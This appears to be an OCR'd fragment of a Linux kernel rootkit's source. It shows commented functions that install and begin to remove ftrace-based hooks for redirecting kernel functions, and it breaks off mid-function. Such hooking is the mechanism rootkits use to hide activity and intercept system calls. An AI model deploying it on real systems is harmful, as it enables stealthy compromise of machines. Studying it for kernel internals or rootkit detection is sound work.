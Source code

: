        /* Assuming we've already set hook->name, hook->function and hook->original, we 
        * can go ahead and install the hook with ftrace. This is done by setting the 
        * ops field of hook (see the comment below for more details), and then using
        * the built-in ftrace_set_filter_ip() and register_ftrace_function() functions
        * provided by ftrace.h
        * */
        int fh_install_hook(struct ftrace_hook *hook)
        {
            int err;
            err = fh_resolve_hook_address(hook);
            if(err)
                return err;

            /* For many of function hooks (especially non-trivial ones), the $rip
            * register gets modified, so we have to alert ftrace to this fact. This
            * is the reason for the SAVE_REGS and IP_MODIFY flags. However, we also
            * need to OR the RECURSION_SAFE flag (effectively turning if OFF) because
            * the built-in anti-recursion guard provided by ftrace is useless if
            * we're modifying $rip. This is why we have to implement our own checks
            * (see USE_FENTRY_OFFSET). */
            hook->ops.func = (ftrace_func_t)fh_ftrace_thunk;
            hook->ops.flags = FTRACE_OPS_FL_SAVE_REGS
                    | FTRACE_OPS_FL_RECURSION
                    | FTRACE_OPS_FL_IPMODIFY;

            err = ftrace_set_filter_ip(&hook->ops, hook->address, 0, 0);
            if(err)
            {
                printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
                return err;
            }

            err = register_ftrace_function(&hook->ops);
            if(err)
            {
                printk(KERN_DEBUG "rootkit: register_ftrace_function() failed: %d\n", err);
                return err;
            }

            return 0;
        }

        /* Disabling our function hook is just a simple matter of calling the built-in
        * unregister_ftrace_function() and ftrace_set_filter_ip() functions (note the
        * opposite order to that in fh_install_hook()).
        * */
        void fh_remove_hook(struct ftrace_hook *hook)
        {
            int err;
            err = unregister_ftrace_function(&hook->ops);
            if(err)
            {
                printk(KERN_DEBUG "rootkit: unregister_ftrace_function() failed: %d\n", err);
            }
